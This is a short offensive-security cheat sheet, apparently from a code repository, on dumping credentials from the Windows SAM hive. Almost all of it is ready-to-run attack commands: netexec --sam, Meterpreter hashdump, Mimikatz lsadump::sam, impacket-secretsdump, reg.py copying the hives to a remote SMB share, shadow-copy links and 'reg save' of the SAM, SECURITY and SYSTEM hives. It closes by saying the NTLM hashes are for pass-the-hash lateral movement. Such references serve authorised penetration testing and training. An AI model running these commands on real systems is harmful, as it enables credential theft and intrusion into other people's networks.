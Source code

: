 # Extract Credentials from SAM

## Tools: CrackMapExec/Netexec , Meterpreter , Mimikatz , impacket-secretsdump , reg.py , vss shadow copies

#### 1) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD --sam

#### 2) Meterpreter

 - hashdump

#### 3) Mimikatz

 - mimikatz "privilege::debug" "lsadump::sam" "exit"

#### 4) Secretsdump

 - impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 5) Reg.py

 - reg.py DOMAIN/USER:PASSWORD@IP backup -o '\\SMB_IP\share'

 - impacket-secretsdump -security SECURITY_FILE -system SYSTEM_FILE LOCAL

#### 6) Shadow Copies (vss)

 - diskshadow list shadows all

 - mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\Harddisk VolumeShadowCopy1\

#### 7) SAM , SYSTEM and SECURITY hives backup copies

 - reg save HKLM\SAM SAM_COPY

 - reg save HKLM\SECURITY SECURITY_COPY

 - reg save HKLM\SYSTEM SYSTEM_FILE

 - impacket-secretsdump -system SYSTEM -sam SAM LOCAL

### With dumping the SAM hive, we dump NTLM hashes to perform Pass-the-Hash attacks (Lateral Movement)
